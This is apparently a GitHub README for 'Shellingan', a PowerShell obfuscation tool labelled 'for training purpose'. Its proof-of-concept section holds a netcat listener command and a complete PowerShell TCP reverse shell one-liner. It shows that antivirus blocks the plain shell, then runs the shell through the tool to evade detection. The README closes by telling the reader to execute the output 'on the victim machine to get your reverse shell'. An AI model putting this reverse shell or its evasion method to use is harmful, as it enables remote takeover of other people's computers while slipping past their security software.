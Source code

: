 # Shellingan
Simple Recursive Powershell Command Obfuscation - for training purpose

## Import

```powershell
. .\shellingan.ps1
```

## Hello World 

```powershell
Invoke-Shellingan -cmd 'write helloworld' -iex $true -recurse 1
```
Then you just have to copy-paste the output where you want execute it.

## Proof Of Concept

From your attack machine:
```console
nc64.exe -lnvp <port>
```

```powershell
$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <attacking machine>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()
```

```console
This script contains malicious content and has been blocked by your antivirus software.
```

```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
<O> SHELLINGAN : Simple Recursive Powershell Command Obfuscation - for training purpose
|
<cmd> : $c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT...
<iex> : True
<rec> : 0
|
<O> SHELLINGAN:
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Copy and Execute the output on the victim machine to get your reverse shell !

##Options

```console
-cmd: Mandatory
-iex: add invoke-expression (usefull to execute your commands)
-recurse: number of obfuscation loop (increase output length!)
```

